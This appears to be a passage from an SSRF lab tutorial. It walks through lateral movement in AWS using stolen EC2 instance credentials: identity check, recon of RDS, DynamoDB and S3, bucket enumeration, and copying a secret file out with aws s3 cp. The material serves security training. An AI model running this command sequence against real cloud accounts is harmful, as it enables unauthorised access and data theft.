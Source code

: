 ## Lateral movement

1.  First, check that the profile has been configured correctly by executing a get-caller-identity API call.

```script
    aws sts get-caller-identity --profile ssrf-demo
```

2.  Now that we have live credentials of the ec2 instance, we can begin our reconaissance looking for what else might be in the account.

Remembering our goal is to exfiltrate data, let's see whether we can find any data stores that this ec2 instance might have access to.

```script
    aws rds describe-db-instances --profile ssrf-demo
    aws dynamodb list-tables --profile ssrf-demo
    aws s3 ls --profile ssrf-demo
```

The first two calls didn't work, but it seems that this role has the ability to list buckets.  Let's see keep going down this track, and see whether we can find anything further in these buckets.  This process is called `enumeration`. 

4.  Enumerate all the buckets

Run the below command, substituting `{bucket_name}` for the name of the ec2-metadata bucket returned in the previous step.

```script
    aws s3 ls {bucket_name} --profile ssrf-demo
```

There's another object in here, our `secret-file.txt`.  As an attacker, we might want to download this file.  This is called `exfiltration`. 

5.  Exfiltrate the data!

Let's download the file locally. 

```script
    aws s3 cp s3://{bucket_name}/secret-file.txt . --profile ssrf-demo
```

Congratulations, you have just achieved your malicious objective! 